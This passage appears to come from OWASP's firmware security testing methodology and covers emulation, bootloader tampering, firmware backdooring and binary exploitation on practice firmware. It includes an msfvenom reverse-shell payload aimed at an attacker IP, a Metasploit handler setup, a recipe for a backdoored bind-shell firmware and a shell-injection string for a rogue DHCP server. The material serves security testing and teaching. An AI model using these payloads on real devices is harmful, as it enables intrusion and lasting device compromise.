In another terminal, check if the service is listening locally and try to connect to it. 
```
> sudo lsof -i :5515
COMMAND     PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
qemu-arm- 13264 root    3u  IPv4 662221      0t0  TCP *:5515 (LISTEN)
> nc -nv 127.0.0.1 5515
Connection to 127.0.0.1 5515 port [tcp/*] succeeded!
[***]Successfully Connected to IoTGoat's Backdoor[***]
```

With the target binary emulated, interact with its interpreter or listening service. Fuzz its application and network interfaces as noted in the next phase.  

#### Full-system Emulation

When possible, use automation tools such as firmadyne, firmware analysis toolkit, or ARM-X Firmware Emulation Framework to perform full emulation of firmware. These tools are essentially wrappers for QEMU and other environmental functions such as nvram.

* [https://github.com/attify/firmware-analysis-toolkit](https://github.com/attify/firmware-analysis-toolkit)
* [https://github.com/therealsaumil/armx/](https://github.com/therealsaumil/armx/)
* [https://github.com/firmadyne/firmadyne](https://github.com/firmadyne/firmadyne)

Using firmware analysis toolkit, simply execute the following command:
```
sudo python3 ./fat.py IoTGoat-rpi-2.img --qemu 2.5.0 

                               __           _
                              / _|         | |
                             | |_    __ _  | |_
                             |  _|  / _` | | __|
                             | |   | (_| | | |_
                             |_|    \__,_|  \__|

                Welcome to the Firmware Analysis Toolkit - v0.3
    Offensive IoT Exploitation Training http://bit.do/offensiveiotexploitation
                  By Attify - https://attify.com  | @attifyme
    
[+] Firmware: IoTGoat-rpi-2.img
[+] Extracting the firmware...
[+] Image ID: 1
[+] Identifying architecture...
[+] Architecture: armel
[+] Building QEMU disk image...
[+] Setting up the network connection, please standby...
[+] Network interfaces: [('eth0', '192.168.1.1')]
[...]
Adding route to 192.168.1.1...
Starting firmware emulation... use Ctrl-a + x to exit
[    0.000000] Booting Linux on physical CPU 0x0
[    0.000000] Linux version 4.1.17+ (vagrant@vagrant-ubuntu-trusty-64) (gcc version 5.3.0 (GCC) ) #1 Thu Feb 18 01:05:21 UTC 2016
[    0.000000] CPU: ARMv7 Processor [412fc0f1] revision 1 (ARMv7), cr=10c5387d
[    0.000000] CPU: PIPT / VIPT nonaliasing data cache, PIPT instruction cache

BusyBox v1.28.4 () built-in shell (ash)

                                                           .--,\\\__         
 ██████╗ ██╗    ██╗ █████╗ ███████╗██████╗                  `-.    a`-.__    
██╔═══██╗██║    ██║██╔══██╗██╔════╝██╔══██╗                   |         ')   
██║   ██║██║ █╗ ██║███████║███████╗██████╔╝                  / \ _.-'-,`;    
██║   ██║██║███╗██║██╔══██║╚════██║██╔═══╝                  /     |   { /    
╚██████╔╝╚███╔███╔╝██║  ██║███████║██║                      /     |   { /    
 ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝            ..-"``~"-'      ;    )     
                                           ╦┌─┐╔╦╗╔═╗┌─┐┌─┐┌┬┐   ;'    `     
                                           ║│ │ ║ ║ ╦│ │├─┤ │   ;'    `      
                                           ╩└─┘ ╩ ╚═╝└─┘┴ ┴ ┴  ;'    `       
 ------------------------------------------------------------ ;'             
 GitHub: https://github.com/OWASP/IoTGoat                                                
 ------------------------------------------------------------   
root@IoTGoat:/# 
```

_Note: Modifications to these tools may be required if the firmware contains an uncommon compression, filesystem, or unsupported architecture._

### **Dynamic analysis**

In this stage, perform dynamic testing while a device is running in its normal or emulated environment. Objectives in this stage may vary depending on the project and level of access given. Typically, this involves tampering of bootloader configurations, web and API testing, fuzzing (network and application services), as well as active scanning using various toolsets to acquire elevated access (root) and/or code execution.

Tools that may be helpful are (non-exhaustive):

* Burp Suite
* OWASP ZAP
* Commix
* Fuzzers such as - American fuzzy loop (AFL)
* Network fuzzers such as - [Mutiny](https://github.com/Cisco-Talos/mutiny-fuzzer)
* Nmap
* NCrack
* Metasploit

#### Embedded web application testing 

Reference industry standard web methodologies such as [OWASP’s Testing Guide](https://www.owasp.org/index.php/OWASP_Testing_Project) and [Application Security Verification Standard (ASVS)](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project). 

Specific areas to review within an embedded device’s web application are the following:

* Diagnostic or troubleshooting pages for potential command injection vulnerabilities
* Authentication and authorization schemes are validated against the same framework across ecosystem applications as well as the firmware operating system platform
* Test whether default usernames and passwords are used
* Perform directory traversal and content discovery on web pages to identify debug or testing functionality
* Asses SOAP/XML and API communication for input validation and sanitization vulnerabilities such as XSS and XXE
* Fuzz application parameters and observe exceptions and stack traces
  * Tailor targeted payloads against embedded web application services for common C/C++ vulnerabilities such as memory corruption vulnerabilities, format string flaws, and integer overflows.

Depending on the product and its application interfaces, test cases will differ.  


#### Bootloader testing

When modifying device start up and bootloaders such as U-boot, attempt the following:

* Attempt to access the bootloaders interpreter shell by pressing "0", space or other identified “magic codes” during boot. 
* Modify configurations to execute a shell command such as adding '`init=/bin/sh`' at the end of boot arguments
  * `#printenv`
  * `#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3`
  * `mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 int=/bin/sh`
  * `#saveenv`
  * `#boot`
* Setup a tftp server to load images over the network locally from your workstation. Ensure the device has network access.  
  * `#setenv ipaddr 192.168.2.2 #local IP of the device`
  * `#setenv serverip 192.168.2.1 #tftp server IP`
  * `#saveenv`
  * `#reset`
  * `#ping 192.168.2.1 #check if network access is available`
  * `#tftp ${loadaddr} uImage-3.6.35 #loadaddr takes two arguments: the address to load the file into and the filename of the image on the TFTP server`
* Use `ubootwrite.py` to write the uboot-image and push a modified firmware to gain root
* Check for enabled debug features such as: 
  * verbose logging
  * loading arbitrary kernels
  * booting from untrusted sources  
* *Use caution: Connect one pin to ground, watch device boot up sequence, before the kernel decompresses, short/connect the grounded pin to a data pin (DO) on an SPI flash chip 
* *Use caution: Connect one pin to ground, watch device boot up sequence, before the kernel decompresses, short/connect the grounded pin to pins 8 and 9 of the NAND flash chip at the moment U-boot decompresses the UBI image
  * *Review the NAND flash chip’s datasheet prior to shorting pins
* Configure a rogue DHCP server with malicious parameters as input for a device to ingest during a PXE boot
  * Use Metasploit’s (MSF) DHCP auxiliary server and modify the ‘`FILENAME`’ parameter with command injection commands such as `‘a";/bin/sh;#’` to test input validation for device startup procedures.

*Hardware security testing

#### Firmware integrity testing

Attempt to upload custom firmware and/or compiled binaries for integrity or signature verification flaws. For example, compile a backdoor bind shell that starts upon boot using the following steps.

1. Extract firmware with firmware-mod-kit (FMK)
2. Identify the target firmware architecture and endianness
3. Build a cross compiler with Buildroot or use other methods that suits your environment
4. Use cross compiler to build the backdoor
5. Copy the backdoor to extracted firmware /usr/bin
6. Copy appropriate QEMU binary to extracted firmware rootfs
7. Emulate the backdoor using chroot and QEMU
8. Connect to backdoor via netcat
9. Remove QEMU binary from extracted firmware rootfs
10. Repackage the modified firmware with FMK
11. Test backdoored firmware by emulating with firmware analysis toolkit (FAT) and connecting to the target backdoor IP and port using netcat
12. $$$$$$$$$$$$$

If a root shell has already been obtained from dynamic analysis, bootloader manipulation, or hardware security testing means, attempt to execute precompiled malicious binaries such as implants or reverse shells. Consider using automated payload/implant tools used for command and control (C&C) frameworks. For example, Metasploit framework and ‘msfvenom’ can be leveraged using the following steps.

1. Identify the target firmware architecture and endianness
2. Use `msfvenom` to specify the appropriate target payload (-p), attacker host IP (LHOST=), listening port number (LPORT=) filetype (-f), architecture (--arch), platform (--platform linux or windows), and the output file (-o). For example, `msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. Transfer the payload to the compromised device (e.g. Run a local webserver and wget/curl the payload to the filesystem) and ensure the payload has execution permissions
4. Prepare Metasploit to handle incoming requests. For example, start Metasploit with msfconsole and use the following settings according to the payload above: use exploit/multi/handler,
   * `set payload linux/armle/meterpreter_reverse_tcp`
   * `set LHOST 192.168.1.245 #attacker host IP`
   * `set LPORT 445 #can be any unused port`
   * `set ExitOnSession false`
   * `exploit -j -z`
5. Execute the meterpreter reverse shell on the compromised device
6. Watch meterpreter sessions open
7. Perform post exploitation activities
8. $$$$$$$$$$$$$$$$

If possible, identify a vulnerability within startup scripts to obtain persistent access to a device across reboots. Such vulnerabilities arise when startup scripts reference, [symbolically link](https://www.chromium.org/chromium-os/chromiumos-design-docs/hardening-against-malicious-stateful-data), or depend on code located in untrusted mounted locations such as SD cards, and flash volumes used for storage data outside of root filesystems.

### **Runtime analysis**

Runtime analysis involves attaching to a running process or binary while a device is running in its normal or emulated environment. Basic runtime analysis steps are provided below:

1. `sudo chroot . ./qemu-arch -L <optionalLibPath> -g <gdb_port> <binary>`
2. Attach gdb-multiarch or use IDA to emulate the binary
3. Set breakpoints for functions identified during step 4 such as memcpy, strncpy, strcmp, etc.
4. Execute large payload strings to identify overflows or process crashes using a fuzzer
5. Move to step 8 if a vulnerability is identified

Tools that may be helpful are (non-exhaustive):

* gdb-multiarch
* [Peda](https://github.com/longld/peda) 
* Frida
* ptrace
* strace
* IDA Pro
* Ghidra
* Binary Ninja
* Hopper

### **Binary Exploitation**

After identifying a vulnerability within a binary from previous steps, a proper proof-of-concept (PoC) is required to demonstrate the real-world impact and risk. Developing exploit code requires programming experience in lower level languages (e.g. ASM, C/C++, shellcode, etc.) as well as background within the particular target architecture (e.g. MIPS, ARM, x86 etc.). PoC code involves obtaining arbitrary execution on a device or application by controlling an instruction in memory.

It is not common for binary runtime protections (e.g. NX, DEP, ASLR, etc.) to be in place within embedded systems however when this happens, additional techniques may be required such as return oriented programming (ROP). ROP allows an attacker to implement arbitrary malicious functionality by chaining existing code in the target process/binary's code known as gadgets. Steps will need to be taken to exploit an identified vulnerability such as a buffer overflow by forming a ROP chain. A tool that can be useful for situations like these is Capstone's gadget finder or ROPGadget - [https://github.com/JonathanSalwan/ROPgadget](https://github.com/JonathanSalwan/ROPgadget)Utilize the following references for further guidance:

* [https://azeria-labs.com/writing-arm-shellcode/](https://azeria-labs.com/writing-arm-shellcode/)
* [https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/](https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/)

### **Firmware analysis tool index**

A combination of tools will be used throughout assessing firmware. Listed below, are commonly used tools.

* [Firmware Analysis Comparison Toolkit](https://github.com/fkie-cad/FACT_core) (FACT)
* [FWanalyzer](https://github.com/cruise-automation/fwanalyzer)
* [ByteSweep](https://gitlab.com/bytesweep/bytesweep)
* [Binwalk](http://binwalk.org/)
* flashrom
* Openocd
* [Firmwalker](https://github.com/craigz28/firmwalker)
* [Firmware Modification Kit](https://code.google.com/archive/p/firmware-mod-kit/)
* [Angr binary analysis framework](https://github.com/angr/angr)
* [Binary Analysis Tool](http://www.binaryanalysis.org/en/home)
* [Firmadyne](https://github.com/firmadyne/firmadyne)
* [Checksec.sh](https://github.com/slimm609/checksec.sh)
* [CHIPSEC](https://github.com/chipsec/chipsec)

### Vulnerable firmware

To practice discovering vulnerabilities in firmware, use the following vulnerable firmware projects as a starting point.

* OWASP IoTGoat
  * [https://github.com/OWASP/IoTGoat](https://github.com/OWASP/IoTGoat)
* The Damn Vulnerable Router Firmware Project
  * [https://github.com/praetorian-code/DVRF](https://github.com/praetorian-code/DVRF)
* Damn Vulnerable ARM Router (DVAR)
  * [https://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html](https://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html)
* ARM-X
  * [https://github.com/therealsaumil/armx#downloads](https://github.com/therealsaumil/armx#downloads)
* Azeria Labs VM 2.0
  * [https://azeria-labs.com/lab-vm-2-0/](https://azeria-labs.com/lab-vm-2-0/)

**Feedback and contributing**

If you would like to contribute or provide feedback to improve this methodology, contact [Aaron.guzman@owasp.org](mailto:Aaron.guzman@owasp.org) ([@scriptingxss](https://twitter.com/scriptingxss?)). Special thanks to our sponsors Cisco Meraki, OWASP Inland Empire, and OWASP Los Angeles as well as José Alejandro Rivas Vidal for his careful review.


